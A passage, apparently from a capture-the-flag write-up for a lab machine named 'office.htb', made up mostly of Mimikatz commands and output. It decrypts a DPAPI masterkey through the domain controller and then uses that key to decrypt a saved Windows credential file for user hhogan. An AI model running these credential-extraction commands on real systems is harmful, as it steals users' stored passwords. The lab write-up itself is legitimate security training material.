 ```markdown
  dwDataLen          : 000000c0 - 192
  pbData             : f73b168ecbad599e5ca202cf9ff719ace31cc92423a28aff5838d7063de5cccd4ca86bfb2950391284b26a34b0eff2dbc9799bdd726df9fad9cb284bacd7f1ccbba0fe140ac16264896a810e80cac3b68f82c80347c4deaf682c2f4d3be1de025f0a68988fa9d633de943f7b809f35a141149ac748bb415990fb6ea95ef49bd561eb39358d1092aef3bbcc7d5f5f20bab8d3e395350c711d39dbe7c29d49a5328975aa6fd5267b39cf22ed1f9b933e2b8145d66a5a370dcf76de2acdf549fc97
  dwSignLen          : 00000014 - 20
  pbSign             : 21bfb22ca38e0a802e38065458cecef00b450976
```
We see this file uses the masterkey GUID `{191d3f9d-7959-4b4d-a520-a444853c47eb}`, so let's decrypt this masterkey with Mimikatz.
```markdown
  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

dpapi::masterkey /in:c:\users\ppotts\appdata\roaming\microsoft\protect\S-1-5-21-1199398058-4196589450-691661856-1107\191d3f9d-7959-4b4d-a520-a444853c47eb /rpc

[...]

[domainkey] with RPC
[DC] 'office.htb' will be the domain
[DC] 'DC.office.htb' will be the DC server
  key : 87eedae4c65e0db47fcbc3e7e337c4cce621157863702adc224caf2eedcfbdbaadde99ec95413e18b0965dcac70344ed9848cd04f3b9491c336c4bde4d1d8166
  sha1: 85285eb368befb1670633b05ce58ca4d75c73c77
```
Now that we have the key, we can decrpt the credentials file and get `hhogan` password.
```markdown
  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

dpapi::cred /in:%appdata%\Microsoft\Credentials\84F1CAEEBF466550F4967858F9353FB4 /masterkey::87eedae4c65e0db47fcbc3e7e337c4cce621157863702adc224caf2eedcfbdbaadde99ec95413e18b0965dcac70344ed9848cd04f3b9491c336c4bde4d1d8166
**BLOB**
  dwVersion          : 00000001 - 1
  guidProvider       : {df9d8cd0-1501-11d1-8c7a-00c04fc297eb}
  dwMasterKeyVersion : 00000001 - 1
  guidMasterKey      : {191d3f9d-7959-4b4d-a520-a444853c47eb}
  dwFlags            : 20000000 - 536870912 (system ; )
  dwDescriptionLen   : 0000003a - 58
  szDescription      : Enterprise Credential Data

  algCrypt           : 00006603 - 26115 (CALG_3DES)
  dwAlgCryptLen      : 000000c0 - 192
  dwSaltLen          : 00000010 - 16
  pbSalt             : 649c4466d5d647dd2c595f4e43fb7e1d
  dwHmacKeyLen       : 00000000 - 0
  pbHmackKey         : 
  algHash            : 00008004 - 32772 (CALG_SHA1)
  dwAlgHashLen       : 000000a0 - 160
  dwHmac2KeyLen      : 00000010 - 16
  pbHmack2Key        : 32e88dfd1927fdef0ede5abf2c024e3a
  dwDataLen          : 000000c0 - 192
```